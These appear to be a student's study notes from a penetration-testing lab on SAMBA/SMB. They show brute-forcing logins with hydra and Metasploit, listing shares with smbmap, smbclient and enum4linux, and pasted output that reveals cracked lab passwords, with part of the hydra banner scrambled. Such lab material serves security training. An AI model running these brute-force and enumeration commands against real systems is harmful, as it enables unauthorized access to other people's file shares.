 - SAMBA utilizes username and password authentication for accessing servers or network shares.
- A brute-force attack can be performed on the SAMBA server to obtain legitimate credentials.
- Once legitimate credentials are obtained, the SMBMap utility can be used to enumerate SAMBA share drives, list share contents, download files, and execute remote commands on the target.
- Another tool called smbclient, part of the SAMBA software suite, provides a client interface similar to FTP. It allows downloading files from the server to the local machine, uploading files from the local machine to the server, and retrieving directory information from the server

Demo enumerating shares 
- run nmap service scan 
- perform bruteforce on smb 
- hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetip smb 
	- we don't use a wordlist or username because we know which account/username we want to bruteforce 
- smbmap 
	- enumerate shares on target system: smbmap -H targetip -u admin -p password1 
	- access the found shares through smbclient
		- is the share browseable: smbclient -L ip -U admin 
			- If the share is browseable, you will see a list of available shares on the specified server.
		- smbclient //ip/Sharename -U admin 
			- get flag - exit 
			- ls our directory 
			- tar xzf file (to extract the content)
- enum for linux 
	- enum4linux -a target 
	- enum4linux -a -u admin -p password1 target 
	

--- Lab 0000 


139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)


- What is the password of user “jane” required to access share “jane”? Use smb_login metasploit module with password wordlist /usr/share/wordlists/metasploit/unix_passwords.txt


192.89.93.3:445 - Success: '.\jane:**abc123'**


- What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt


root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.89.93.3 smb
Hydritary or secret service organizations, or for illegal purposes.
a v8.8 (c) 2019 by van Hauser/THC - Please do not use in mil
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-17 13:14:42
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.89.93.3:445/
[445][smb] host: 192.89.93.3   login: admin   password: **password1**
  
- Which share is read only? Use smbmap with credentials obtained in question 2. nancy is read only 
  
  ![[Pasted image 20230717153817.png]]
  
